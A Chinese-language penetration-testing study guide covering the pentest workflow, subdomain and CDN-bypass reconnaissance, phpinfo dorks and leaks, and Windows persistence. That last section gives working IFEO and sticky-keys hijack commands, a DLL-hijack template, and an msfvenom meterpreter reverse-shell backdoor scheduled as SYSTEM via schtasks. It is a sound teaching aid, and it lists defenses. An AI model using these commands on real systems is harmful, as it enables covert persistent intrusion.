## 渗透的流程




### 术语

- `EXP（Exploit）`：漏洞利用，一般是完整的漏洞利用代码或程序
- `POC（Proof of Concept）`：漏洞概念验证，一般用于证明漏洞存在，不具有攻击性
- `Shellcode`：获取shell的代码，获取shell是大部分攻击的最终目的
- `Payload`：攻击载荷，一系列具有完整框架性的攻击代码


一般情况，poc是让被攻击程序执行了一段代码证明漏洞存在，

shellcode是你基于poc编写的当被攻击程序执行时会启动shell的代码，

payload是当shell启动后会继续按照预设的攻击框架进行正向或反向的远程连接到攻击者的服务器并且隐匿进程、隐藏流量或有更强攻击性的代码，

而exp是一个按照上述流程编写的完整的攻击程序，任何人运行后都可以直接攻击某个具有该漏洞的主机。




### 前期交互

- 确认范围：测试目标的范围、IP、域名、内外网、测试账户...
- 确认规则：能渗透到什么程度、所需要的时间、能否修改上传、能否提权...
- 确认需求：web应用的漏洞、业务逻辑漏洞、人员权限管理漏洞...


### 信息收集

主动信息收集：与目标有直接接触

被动信息收集：通过第三方进行信息提取

信息收集主要内容：

- 基础信息：ip、网段、域名、子域名、开放端口
- 各端口的应用
- 操作系统
- 中间件
- 所用探测到的东西的版本
- 人员信息：域名注册人员信息、系统管理员信息
- 防护设备：waf、IDS、IDP...


### 漏洞探测

利用上述步骤列出的系统、应用等搜索相应版本的漏洞

利用工具进行漏洞扫描


### 漏洞验证

将上一步中发现的有可能可以成功利用的全部漏洞都验证一遍。结合实际情况，搭建模拟环境进行试验。成功后再应用于目标中。

- 自动化验证：结合自动化扫描工具提供的结果

- 手工验证，根据公开资源进行验证

-  试验验证：自己搭建模拟环境进行验证

- 登陆猜解：有时可以尝试猜解一下登陆口的账号密码等信息

- 业务漏洞验证：如发现业务漏洞，要进行验证

公开资源的利用

- exploit-db/wooyun/

- google hacking

- 渗透代码网站

- 通用、缺省口令

- 厂商的漏洞警告等等


### 信息分析

为下一步实施渗透做准备。

- 精准打击：准备好上一步探测到的漏洞的exp，用来精准打击

- 绕过防御机制：是否有防火墙等设备，如何绕过

- 定制攻击路径：最佳工具路径，根据薄弱入口，高内网权限位置，最终目标

- 绕过检测机制：是否有检测机制，流量监控，杀毒软件，恶意代码检测等（免杀）

- 攻击代码：经过试验得来的代码，包括不限于xss代码，sql注入语句等


### 获取所需

实施攻击：根据前几步的结果，进行攻击

- 获取内部信息：基础设施（网络连接，vpn，路由，拓扑等）

- 进一步渗透：内网入侵，敏感目标

- 持续性存在：一般我们对客户做渗透不需要。rookit，后门，添加管理账号，驻扎手法等

- 清理痕迹：清理相关日志（访问，操作），上传文件等


### 信息整理

-  整理渗透工具：整理渗透过程中用到的代码，poc，exp等

- 整理收集信息：整理渗透过程中收集到的一切信息

- 整理漏洞信息：整理渗透过程中遇到的各种漏洞，各种脆弱位置信息


### 形成报告

- 按需整理：按照之前第一步跟客户确定好的范围，需求来整理资料，并将资料形成报告

- 补充介绍：要对漏洞成因，验证过程和带来危害进行分析

- 修补建议：当然要对所有产生的问题提出合理高效安全的解决办法


## 信息收集如何处理子域名爆破的泛解析问题


### 常见的DNS记录类型

- **A记录**：最常见的DNS记录形式。一个A记录指向一个网站或域名的IP地址。

  A记录的主要应用是用于IP地址的查询。网络浏览器可以通过A记录加载一个使用域名的网页。因此，我们可以在互联网上访问网站，即使我们不知道它们的IP地址。

- **AAAA**记录：与A记录类似，只是它存储的是较新的IPv6地址，而不是IPv4。每一个使用IPv6的互联网网站都需要它

- **CNAME**记录：真实名称记录（英語：Canonical Name Record），即CNAME记录，是域名系统（DNS）的一种记录。 CNAME记录用于将一个域名（同名）映射到另一个域名（真实名称），域名解析服务器遇到CNAME记录会以映射到的目标重新开始查询。 这对于需要在同一个IP地址上运行多个服务的情况来说非常方便。

  假设有下述DNS zone：

  ```
  NAME                    TYPE   VALUE
  --------------------------------------------------
  bar.example.com.        CNAME  foo.example.com.
  foo.example.com.        A      192.0.2.23
  ```

  当要查询*bar.example.com*的A记录时，域名解析器会查到对应的CNAME记录，即*foo.example.com*，随即开始查询该域名的A记录，查到192.0.2.23则返回结果。

- NS记录：NS 代表“域名服务器”，域名服务器记录指示哪个 DNS 服务器对该域具有权威性（即，哪个服务器包含实际 DNS 记录。基本上，NS 记录告诉互联网可从哪里找到域的 IP 地址。一个域通常会有多个 NS 记录，这些记录可指示该域的主要和辅助域名服务器。倘若没有正确配置的 NS 记录，用户将无法加载网站或应用程序。

- MX记录：用于指定负责处理发往收件人域名的邮件服务器。MX记录允许设置一个优先级，当多个邮件服务器可用时，会根据该值决定投递邮件的服务器。[简单邮件传输协议](https://zh.wikipedia.org/wiki/简单邮件传输协议)（SMTP）会根据MX记录的值来决定邮件的路由过程。


### 什么是域名泛解析

域名泛化解析是指：利用通配符* （星号）来做次级域名以实现所有的次级域名均指向同一IP地址。在域名前添加任何子域名，均可访问到所指向的IP地址


### 识别泛解析

- 任意ping一个绝对不存在的子域名




### 子域名爆破中解决泛解析的方式

目前最常见的解决方式是IP黑名单的方式

首先访问一个随机的并不存在的域，通过返回的结果判断是否存在泛解析，确定存在泛解析后，（脚本实现）不断的生成随机域名并发送请求，将每次返回的IP和TTL记录下来，直到大部分的IP出现次数都大于两次，则IP黑名单收集完成。而后使用域名字典进行爆破，爆破过程中根据IP黑名单进行过滤，同时比较TTL，在泛解析记录中TTL是相同的，如果TTL不相同，则不是泛解析记录。


## 如何绕过CDN查找真实ip

### 验证是否存在CDN

- 超级ping

  使用各种多地ping服务，查看对应ip地址是否唯一，如果不唯一多半使用了CDN，超级ping网站：

  ```
  http://ping.chinaz.com/
  http://ping.aizhan.com/
  http://ce.cloud.360.cn/
  ```

- nslookup

  使用nslookup进行检测，如果返回域名解析对应多个ip地址多半就是使用了CDN


### 绕过方法

- **DNS历史解析记录**

  查询域名的历史解析记录，可能会找到网站部署CDN前的解析记录，从而获取真实ip

  [iphistory](https://viewdns.info/iphistory/)

  [微步在线](https://x.threatbook.cn/)

  [查询网](https://site.ip138.com/yhuco.xyz/)

  

- **查询子域名**

  很多时候，一些重要的站点会做CDN，而一些子域名站点并没有加入CDN，而且跟主站在同一个C段内，这时候，就可以通过查找子域名来查找网站的真实IP。

  常用的子域名查找方法和工具：

  1、搜索引擎查询：如`Google`、`baidu`、`Bing`等传统搜索引擎，`site:baidu.com inurl:baidu.com`，搜`target.com|公司名字`。

  2、一些在线查询工具，如：[站长工具](http://tool.chinaz.com/subdomain/)

  3、子域名爆破工具：Layer子域名挖掘机

  

- **网站邮件头信息**

  比如说，邮箱注册，邮箱找回密码、RSS邮件订阅等功能场景，通过网站给自己发送邮件，从而让目标主动暴露他们的真实的IP，查看邮件头信息，获取到网站的真实IP

  

- **网络空间安全搜索引擎**

  常见的有钟馗之眼，[shodan](https://www.shodan.io/)，[fofa搜索](https://fofa.so/)。以fofa为例，只需输入：`title:“网站的title关键字”`或者`body：“网站的body特征”`就可以找出fofa收录的有这些关键字的ip域名


- **利用SSL证书寻找真实ip**

  目前[Censys](https://censys.io/ipv4?q=github.comCensys)工具就能实现对整个互联网的扫描，Censys是一款用以搜索联网设备信息的新型搜索引擎，安全专家可以使用它来评估他们实现方案的安全性，而黑客则可以使用它作为前期侦查攻击目标、收集目标信息的强大利器。Censys搜索引擎能够扫描整个互联网，Censys每天都会扫描IPv4地址空间，以搜索所有联网设备并收集相关的信息，并返回一份有关资源（如设备、网站和证书）配置和部署信息的总体报告。

  而攻击者唯一需要做的就是把上面用文字描述的搜索词翻译成实际的搜索查询参数。

  xyz123boot.com证书的搜索查询参数为：`parsed.names：xyz123boot.com`

  只显示有效证书的查询参数为：`tags.raw：trusted`

  攻击者可以在Censys上实现多个参数的组合，这可以通过使用简单的布尔逻辑来完成。

  组合后的搜索参数为：`parsed.names: xyz123boot.com and tags.raw: trusted`


- **国外主机解析域名**

  大部分 CDN 厂商因为各种原因只做了国内的线路，而针对国外的线路可能几乎没有，此时我们使用国外的DNS查询，很可能获取到真实IP


- **利用网站漏洞获取信息**

  SSRF漏洞主动连接


## phpinfo页面你会关注哪些信息

### 如何通过谷歌语法搜索具有该页面的网站

1. **基本搜索查询**：
   
   ```plaintext
   inurl:"phpinfo.php"
   ```
   这个查询会搜索URL中包含“phpinfo.php”的页面。
   
2. **更多高级搜索**：
   ```plaintext
   inurl:"phpinfo.php" intitle:"phpinfo"
   ```
   这个查询进一步过滤，寻找标题中包含“phpinfo”的页面，这通常是典型的phpinfo()输出页面。

3. **结合多个条件**：
   ```plaintext
   inurl:"phpinfo.php" OR inurl:"phpinfo" "PHP Version"
   ```
   这个查询组合了多个条件，查找URL中包含“phpinfo.php”或“phpinfo”，并且页面中包含“PHP Version”文本的页面。这是因为phpinfo()页面通常显示PHP的版本信息。

4. **使用特定文件类型**：
   ```plaintext
   filetype:php inurl:phpinfo
   ```
   这个查询查找文件类型为PHP，并且URL中包含“phpinfo”的页面。

#### 示例查询说明

1. **inurl**：
   - `inurl`操作符用于搜索URL中包含指定字符串的页面。例如`inurl:"phpinfo.php"`会找到所有URL中包含“phpinfo.php”的页面。

2. **intitle**：
   - `intitle`操作符用于搜索网页标题中包含指定字符串的页面。例如`intitle:"phpinfo"`会找到标题中包含“phpinfo”的页面。

3. **OR**：
   - `OR`操作符用于组合多个条件，满足其中一个即可。例如，`inurl:"phpinfo.php" OR inurl:"phpinfo"`会找到URL中包含“phpinfo.php”或“phpinfo”的页面。

4. **filetype**：
   - `filetype`操作符用于搜索特定文件类型的页面。例如`filetype:php`会找到所有PHP文件。


### 敏感信息

`phpinfo()`页面可以提供大量有关服务器和PHP环境的详细信息，这些信息对于渗透测试人员或攻击者来说是非常有用的。以下是一些phpinfo页面上可能包含的敏感信息：

1. **PHP版本信息**：

   - 显示PHP的确切版本号。这可以帮助攻击者确定是否存在针对该版本的已知漏洞。

     

2. **已加载的PHP扩展和模块**：
   - 列出所有已安装和启用的PHP扩展，例如`curl`、`mysqli`、`gd`等。某些扩展可能存在已知漏洞或可被利用。

     

3. **配置信息**：
   - **`register_globals`**：如果开启，可能会导致变量覆盖漏洞。

   - **`allow_url_fopen`** 和 **`allow_url_include`**：如果开启，可能允许远程文件包含攻击。

   - **`display_errors`**：如果开启并设置为`On`，可能会泄露错误消息和路径信息。

   - **`Configuration File(php.ini)Path`**：这一栏表明了php.ini这个php配置文件的位置

   - **`disable_functions`**：表示禁用的函数名

     

4. **环境变量**：

   包括服务器的环境变量，如操作系统类型、服务器软件（如Apache或Nginx版本、服务器IP地址和端口、文档根目录路径等。

   - **环境部分**：`Environment`

   - **Apache环境部分**：`Apache Environment`

     - `SERVER_ADDR`真实ip地址，绕过CDN

   - **服务器环境部分**：`Server Environment`

     

5. **路径信息**：

   绝对路径信息，包括根目录路径、临时目录路径、已加载文件的路径等。这些信息可以帮助攻击者定位和访问敏感文件。

   - 核心配置部分

     ```
     Core
     ```

     - `doc_root` 服务器文档根目录
     - `include_path` 当使用 `include` 或 `require` 等文件包含函数时，PHP 将在这些目录中查找文件。
     - `open_basedir ` 可将用户访问文件的活动范围限制在指定的区域，通常是其家目录的路径
     - `extension path`：php扩展的路径

   - 会话部分

     ```
     session
     ```

     - `session.save_path`

   - 上传部分

     ```
     file_uploads
     ```

     - `upload_tmp_dir`

       

6. **HTTP头信息**：

   包括了请求和响应的HTTP头信息，可以帮助攻击者了解服务器如何处理请求，并可能暴露一些敏感信息。

   - HTTP头信息部分

     ```
     HTTP Headers Information
     ```

     - `HTTP Request Headers`

     - `HTTP Response Headers`

       

7. **数据库配置信息**：

   虽然phpinfo页面不会直接显示数据库用户名和密码，但会显示与数据库连接相关的扩展和配置（如mysqli、PDO等），可以为进一步的数据库攻击提供线索。

   - 数据库扩展部分：如 `mysql`, `mysqli`, `pdo_mysql` 等

     

8. **SSL证书信息**：

   如果启用了SSL，phpinfo页面可能会显示与SSL相关的配置信息，包括证书路径、SSL协议和加密算法。

   - Apache环境部分

     ```
     Apache Environment
     ```

     - SSL相关变量（如果配置了SSL）

       

9. **其他配置信息**：

   - **`open_basedir`**：如果配置不当，可能允许访问未授权的文件。

   - **`session.save_path`**：显示会话文件存储路径，如果路径可写且暴露，可能导致会话劫持。

     

10. **编译选项和命令行选项**：

    显示PHP在编译时使用的选项和命令行选项，可以帮助攻击者了解PHP的构建环境和可利用的功能。

    - PHP变量部分：`PHP Variables`
    - 配置部分：`Configure Command`


## 有没有了解过权限维持

权限维持是指攻击者在一次成功的入侵后，通过各种手段保持对目标系统的持续控制，即使系统进行了重启或常规安全维护后仍能重新取得权限。

权限维持的常见手段包括：

- **后门植入**：攻击者在系统中植入隐蔽的恶意代码，如rootkit，能够在系统启动时自动加载并赋予攻击者远程访问或控制权限。

  举例来说，Stuxnet蠕虫就曾通过在Windows系统中注入驱动级后门，实现了长期隐蔽的权限维持。

- **凭证窃取与滥用**：攻击者盗取合法用户的凭据信息，如密码、密钥或证书，在需要时使用这些凭证重新登录系统，达到权限维持的目的。

- **持久化注册表项**：在Windows系统中，攻击者可以通过修改注册表，使恶意程序在系统启动时自动运行。

- **计划任务或服务**：在多种操作系统中，攻击者都可以创建定时任务或服务，确保恶意程序在特定时间或条件下启动，以此保持权限


### windows权限维持

#### 镜像劫持

Windows 镜像劫持（Image File Execution Options Injection, IFEI）是一种攻击技术，通过修改注册表来劫持可执行文件的启动流程。攻击者可以指定在某些程序运行时，首先启动另一个可执行文件（通常是恶意软件）。这种技术可以用于持久化、权限提升、以及绕过安全软件等多种攻击场景。

##### 原理

1. **注册表项设置**：Windows 提供了一个注册表项 `Image File Execution Options`，位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`。在这个注册表项下，可以为每个可执行文件设置调试程序。
2. **调试器重定向**：通过设置 `Debugger` 子项，可以指定一个调试程序。当目标可执行文件被启动时，Windows 会启动指定的调试程序，而不是原始的可执行文件。
3. **恶意利用**：攻击者可以利用这一特性，将合法的可执行文件重定向到一个恶意程序，从而实现各种攻击目的。

##### 示例

假设我们要劫持 `notepad.exe` 使其运行一个恶意程序 `malicious.exe`。

注册表设置

1. 打开注册表编辑器（`regedit`）。

2. 导航到以下路径：

   ```
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
   ```

3. 在 `Image File Execution Options` 下创建一个新的子项，命名为 `notepad.exe`。

   > IFEO使用忽略路径的方式来匹配它所要控制的程序文件名，所以只要可执行程序文件名未改，程序放在哪里都会遭到劫持

4. 在 `notepad.exe` 子项下，创建一个新的字符串值（REG_SZ），命名为 `Debugger`。

5. 将 `Debugger` 的值设置为 `C:\path\to\malicious.exe`，即恶意程序的路径。

可以通过命令行直接设置这个注册表项：

```cmd
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /t REG_SZ /d "C:\path\to\malicious.exe" /f
```

当用户或系统尝试启动 `notepad.exe` 时，实际上启动的是 `malicious.exe`。原始的 `notepad.exe` 不会被启动，除非 `malicious.exe` 代码中明确调用。


##### 基于辅助功能的镜像劫持

所谓辅助功能就是在Windows系统中，我们可以使用多种组合键打开或关闭特定的功能，例如常用的win + ctrl + o打开屏幕键盘，win + u打开设置中心，连按5次shift打开粘滞键等等。



而且微软为了提高用户体验，非常‘贴心’的允许用户在登陆系统前也可以使用这些功能，根据这个特性，某些攻击者很可能通过远程桌面协议，在未授权的情况下运行这些功能

```cmd
C:\WINDOWS\System32\Utilman.exe #打开设置中心
C:\WINDOWS\System32\sethc.exe #打开粘滞键
C:\WINDOWS\Syetem32\osk.exe #打开屏幕键盘
```

修改注册表，在`HKEY_LOCAL_MACHINE \ SOFTWARE \ Microsoft \ Windows NT \ CurrentVersion \ Image File Execution Option`中添加`Utilman.exe`项，在此项中添加`debugger`键，键值为启动cmd的命令`C:\WINDOWS\System32\cmd.exe`。

当攻击者通过远程桌面协议连接到受害者电脑上时，只需使用组合键win+u，本应该打开的设置中心，最终却打开了cmd命令行，通过命令行可以添加用户、打开注册表、运行恶意软件、添加隐蔽后门等等一些列攻击手段

##### 防范措施

1. **注册表监控**：使用系统监控工具（如 Sysinternals 的 Autoruns 或 Windows 事件查看器）监控和审计注册表的关键位置，尤其是 `Image File Execution Options` 。
2. **权限管理**：严格控制对注册表的写权限，确保只有授权用户和进程能够修改关键注册表项。
3. **安全软件**：使用防病毒和反恶意软件工具，这些工具通常能够检测和阻止镜像劫持攻击。
4. **系统完整性检查**：定期检查系统的完整性，包括关键文件和注册表项，确保没有被篡改。


#### DLL劫持

DLL 劫持（DLL Hijacking）是一种利用动态链接库（DLL）的加载顺序漏洞进行攻击的技术。通过在特定位置放置恶意 DLL 文件，攻击者可以诱使应用程序加载并执行恶意代码，而不是合法的 DLL。以下是 DLL 劫持的原理及其防范措施。

##### DLL 劫持的原理

1. **DLL 加载顺序**：当一个应用程序需要调用某个 DLL 时，Windows 会按照特定的顺序来搜索并加载这个 DLL。搜索顺序通常包括以下几个目录：
   - 应用程序的工作目录
   - 系统目录（如 `C:\Windows\System32`）
   - Windows 目录（如 `C:\Windows`）
   - 当前目录
   - 环境变量 PATH 中指定的目录
2. **劫持原理**：攻击者在应用程序的工作目录或其他优先级较高的目录中放置一个恶意的 DLL，且该 DLL 的名称与应用程序要加载的合法 DLL 名称相同。由于加载顺序的原因，应用程序会优先加载恶意 DLL，从而执行其中的恶意代码。

**在win7以上版本**
微软为了更进一步的防御系统的DLL被劫持，将一些容易被劫持的系统DLL写进了一个注册表项中，那么凡是此项下的DLL文件就会被禁止从EXE自身所在的目录下调用，而只能从系统目录即SYSTEM32目录下调用。注册表路径如下：
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`
以前经常使用的一些劫持DLL已经被加入了KnownDLLs注册表项，这就意味着使用诸如usp10.dll，lpk.dll，ws2_32.dll去进行DLL劫持已经失效了。

Windows操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

##### 实施 DLL 劫持的步骤

1. **确定目标应用程序及其依赖的 DLL**：攻击者需要知道目标应用程序要加载哪些 DLL，以及这些 DLL 的名称。

   有很多软件可以查看exe加载的dll

   如：[process-explorer](https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer)、火绒剑

2. **编写恶意 DLL**：一般会制作一个相同名称，相同导出函数表的一个“假”DLL，并将每个导出函数转向到“真”DLL。将这个“假”DLL放到程序的目录下，当程序调用DLL中的函数时就会首先加载“假”DLL，在“假”DLL中攻击者已经加入了恶意代码，这时这些恶意代码就会被执行，之后，“假”DLL再将DLL调用流程转向“真”DLL，以免影响程序的正常执行

3. **放置恶意 DLL**：将恶意 DLL 放置在目标应用程序会首先搜索的目录中，例如应用程序的工作目录。

##### 实例

假设目标应用程序需要加载 `example.dll`，攻击者可以进行如下操作：

###### 1. 编写恶意 DLL

编写一个恶意的 `example.dll`，包含导出函数。假设原始的 `example.dll` 有一个 `void ExampleFunction()` 函数，恶意 DLL 也需要包含这个函数。

```cpp
#include <windows.h>

extern "C" __declspec(dllexport) void ExampleFunction() {
    MessageBox(NULL, "DLL Hijacked!", "Alert", MB_OK);
    // 这里可以插入恶意代码
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        ExampleFunction();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

###### 2. 编译恶意 DLL

使用适当的编译器（如 Microsoft Visual Studio）编译上述代码生成 `example.dll`。

###### 3. 放置恶意 DLL

将生成的 `example.dll` 放置在目标应用程序的工作目录中。例如，如果目标应用程序位于 `C:\Program Files\TargetApp\`，则将 `example.dll` 放置在此目录下。

##### 防范措施

1. **使用完整路径加载 DLL**：开发人员应使用 DLL 的绝对路径，而不是相对路径，这样可以避免 DLL 劫持。
2. **目录清理**：确保应用程序目录中没有多余的 DLL 文件，并且应用程序只在必要的目录中搜索 DLL。
3. **签名验证**：验证 DLL 的数字签名，确保加载的 DLL 是合法且未被篡改的。
4. **启用安全加载机制**：Windows 提供了一些功能，如 DLL 安全搜索模式（SafeDllSearchMode），可以减少 DLL 劫持的风险。可以通过修改注册表或在代码中调用相关 API 来启用这些功能。

   启用 DLL 安全搜索模式的注册表键：
   ```reg
   [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager]
   "SafeDllSearchMode"=dword:00000001
   ```

5. **应用程序清单**：使用应用程序清单（manifest）文件指定应用程序所需的 DLL 的加载策略。


#### 系统计划任务后门

利用 Windows 计划任务实现权限维持是一种常见的持久化方法，攻击者可以通过创建或修改计划任务来确保恶意代码在系统重启后继续执行，或者在特定时间点或事件触发时自动运行。这种方法可以绕过某些基于文件的安全措施，并且很难被检测到

##### schtasks命令基本语法

```cmd
schtasks [参数] [选项]
```

##### 常见参数和选项

###### 1. 创建任务 (`/create`)

创建一个新的计划任务。

```cmd
schtasks /create /tn "TaskName" /tr "TaskRun" /sc Schedule [/mo Modifier] [/d Days] [/m Months] [/i IdleTime] [/st StartTime] [/ru RunAsUser] [/rp RunAsPassword] [/f]
```

- `/tn`：任务名称。
- `/tr`：任务运行的程序或脚本。
- `/sc`：计划类型（MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE）。
- `/mo`：计划修饰符，例如每隔几分钟、每隔几小时等。
- `/d`：指定天，适用于 WEEKLY 或 MONTHLY。
- `/m`：指定月，适用于 MONTHLY。
- `/i`：空闲时间，适用于 ONIDLE。
- `/st`：任务开始时间。
- `/ru`：运行任务的用户。
- `/rp`：运行任务用户的密码。
- `/f`：强制创建任务，覆盖同名任务。

**示例**：

创建一个在每天 12:00 PM 运行的任务：

```cmd
schtasks /create /tn "DailyBackup" /tr "C:\Backup\backup.bat" /sc daily /st 12:00
```

###### 2. 删除任务 (`/delete`)

删除一个或多个计划任务。

```cmd
schtasks /delete /tn "TaskName" [/f]
```

- `/f`：强制删除任务，无需确认。

**示例**：

删除名为 "DailyBackup" 的任务：

```cmd
schtasks /delete /tn "DailyBackup" /f
```

###### 3. 查询任务 (`/query`)

查询计划任务的详细信息。

```cmd
schtasks /query [/tn "TaskName"] [/fo {TABLE | LIST | CSV}] [/v]
```

- `/tn`：指定任务名称。
- `/fo`：输出格式，TABLE（表格）、LIST（列表）或 CSV。
- `/v`：显示详细信息。

**示例**：

查询所有计划任务并以表格形式显示：

```cmd
schtasks /query /fo TABLE
```

###### 4. 修改任务 (`/change`)

修改现有计划任务的属性。

```cmd
schtasks /change /tn "TaskName" [/tr "TaskRun"] [/st StartTime] [/ri Interval] [/ru RunAsUser] [/rp RunAsPassword] [/sd StartDate] [/ed EndDate] [/enable | /disable]
```

- `/tr`：修改任务运行的程序或脚本。
- `/st`：修改任务开始时间。
- `/ri`：重复间隔时间。
- `/ru`：修改运行任务的用户。
- `/rp`：修改运行任务用户的密码。
- `/sd`：修改任务开始日期。
- `/ed`：修改任务结束日期。
- `/enable`：启用任务。
- `/disable`：禁用任务。

**示例**：

修改 "DailyBackup" 任务的运行时间为 11:00 PM：

```cmd
schtasks /change /tn "DailyBackup" /st 23:00
```

###### 5. 运行任务 (`/run`)

立即运行指定的计划任务。

```cmd
schtasks /run /tn "TaskName"
```

**示例**：

立即运行 "DailyBackup" 任务：

```cmd
schtasks /run /tn "DailyBackup"
```

###### 6. 停止任务 (`/end`)

停止正在运行的计划任务。

```cmd
schtasks /end /tn "TaskName"
```

**示例**：

停止 "DailyBackup" 任务：

```cmd
schtasks /end /tn "DailyBackup"
```

###### 计划类型 (`/sc`)

- `MINUTE`：每隔几分钟运行一次。
- `HOURLY`：每隔几小时运行一次。
- `DAILY`：每天运行一次。
- `WEEKLY`：每周运行一次。
- `MONTHLY`：每月运行一次。
- `ONCE`：只运行一次。
- `ONSTART`：系统启动时运行。
- `ONLOGON`：用户登录时运行。
- `ONIDLE`：系统空闲时运行。

##### 任务创建示例

1. 每天上午 8:00 运行 `C:\Scripts\script.bat`：

   ```cmd
   schtasks /create /tn "DailyScript" /tr "C:\Scripts\script.bat" /sc daily /st 08:00
   ```

2. 每周一至周五上午 9:00 运行 `C:\Scripts\script.bat`：

   ```cmd
   schtasks /create /tn "WeeklyScript" /tr "C:\Scripts\script.bat" /sc weekly /d MON,TUE,WED,THU,FRI /st 09:00
   ```

3. 每月 1 号和 15 号上午 10:00 运行 `C:\Scripts\script.bat`：

   ```cmd
   schtasks /create /tn "MonthlyScript" /tr "C:\Scripts\script.bat" /sc monthly /d 1,15 /st 10:00
   ```


##### 利用MSF生成一个exe类型的后门

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.226.131 lport=8888 -f exe -o wxiaoge.exe 
#lhost是我们的主机ip，lport是我们主机的用于监听的端口
```



###### 创建计划任务

将生成的后门木马 wxiaoge.exe 上传到目标机内，然后在目标机内执行以下指令，创建一个wixoage计划任务，每一分钟执行一次wxiaoge.exe。

```cmd
schtasks /create /tn wxiaoge /sc minute /mo 1/tr C:\Users\Administrator\Desktop\wxiaoge.exe /ru system /f
#schtasks
```

